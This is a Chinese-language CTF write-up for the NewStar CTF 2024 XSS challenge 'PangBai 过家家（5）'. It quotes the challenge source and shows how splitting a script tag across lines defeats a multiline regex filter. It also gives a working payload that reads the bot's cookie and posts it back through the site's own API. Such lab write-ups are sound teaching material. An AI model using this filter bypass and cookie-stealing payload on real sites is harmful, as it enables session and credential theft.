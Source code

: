 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# PangBai 过家家（5）

<Container type="info">

本题已开源，关于题目源码和 EXP，详见：[cnily03-hive/PangBai-XSS](https://github.com/cnily03-hive/PangBai-XSS)
</Container>

这是一题 XSS 题。XSS 题目的典型就是有一个 Bot，flag 通常就在这个 Bot 的 Cookie 里面。

XSS 的全称是跨站脚本攻击，存在这种攻击方式的原因是，用户访问到的网页内容并不是服务端期望的那样，可能存在恶意的代码。例如，你点击一个网页链接，但是它却执行了攻击者的前端 JavaScript 代码，将你的登录凭据、隐私信息发送给攻击者。在 XSS 题中，Bot 就承担这个受害者用户。

题目有一个发件的路由，还有一个查看信件的路由，以及一个「提醒 PangBai」的按钮，这个按钮实际就是让 Bot 访问查看当前信件的路由。

我们要做的就是找到一处能够展示我们的输入的地方，想办法使内容展示之后，浏览器能够执行我们恶意的 JavaScript 代码。这样，如果让 Bot 去访问这个 URL，恶意代码就会在 Bot 的浏览器执行，我们的恶意代码可以执行获取 Cookie 等操作。

从 `bot.ts` 可见，FLAG 在 Cookie 中：

```typescript
await page.setCookie({
  name: "FLAG",
  value: process.env["FLAG"] || "flag{test_flag}",
  httpOnly: false,
  path: "/",
  domain: "localhost:3000",
  sameSite: "Strict",
});
```

我们直接输入 `<script>alert(1)</script>` 做测试，访问查看信件的界面，查看源码，发现输入被过滤了。

跟踪附件中的后端源码，`page.ts` 中的 `/box/:id` 路由，会渲染我们的输入：

```typescript
router.get("/box/:id", async (ctx, next) => {
  const letter = Memory.get(ctx.params["id"]);
  await ctx.render("letter", <TmplProps>{
    page_title: "PangBai 过家家 (5)",
    sub_title: "查看信件",
    id: ctx.params["id"],
    hint_text: HINT_LETTERS[Math.floor(Math.random() * HINT_LETTERS.length)],
    data: letter
      ? {
          title: safe_html(letter.title),
          content: safe_html(letter.content),
        }
      : { title: TITLE_EMPTY, content: CONTENT_EMPTY },
    error: letter ? null : "找不到该信件",
  });
});
```

但是输入的内容都经过了 `safe_html` 过滤

```typescript
function safe_html(str: string) {
  return str
    .replace(/<.*>/gim, "")
    .replace(/<\.*>/gim, "")
    .replace(/<.*>.*<\/.*>/gim, "");
}
```

可见这只是一个正则替换，正则中各个标志的作用：

- `i` 标志：忽略大小写
- `g` 标志：全局匹配，找到所有符合条件的内容
- `m` 标志：多行匹配，每次匹配时按行进行匹配，而不是对整个字符串进行匹配<span data-desc>（与之对应的是 `s` 标志，表示单行模式，将换行符看作字符串中的普通字符）</span>

由于 `m` 的存在，匹配开始为行首，匹配结束为行尾，因此我们只需要把 `<` 和 `>` 放在不同行即可，例如：

```javascript
<script
>alert(1)</script
>
```

此时我们就能执行恶意代码了。直接使用 `document.cookie` 即可获取到 Bot 的 Cookie。
拿到 Cookie 之后，怎么回显呢？如果题目靶机是出网的，可以发送到自己的服务器上面；但是题目靶机并不出网，这时可以写一个 JavaScript 代码，模拟用户操作，将 Cookie 作为一个信件的内容提交（让 Bot 写信），这样我们就能查看到了。例如：

```javascript
<script
>
fetch('/api/send', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({'title': "Cookie", 'content': document.cookie})
})
</script
>
```

:::warning 注意

`fetch` 中的请求路径可以是相对路径、绝对路径等，因此上面忽略了 Origin，如果显示指定，必须和当前的 Origin 一样，否则存在跨域问题。从 bot.ts 中可以看到 Bot 访问的是 `http://localhost:3000`，因此使用 `http://127.0.0.1:3000` 是不行的。

把 Payload 提交之后，如果手动查看信件并点击「提醒 PangBai」，会触发两次 Payload，一次是你自己查看信件时触发的，一次是 Bot 触发的。

:::

提交并「提醒 PangBai」之后，稍等一会，查看信箱，就可以看到内容了。

![查看 flag_1](/assets/images/wp/2024/week5/pangbai5_1.png)

![查看 flag_2](/assets/images/wp/2024/week5/pangbai5_2.png)
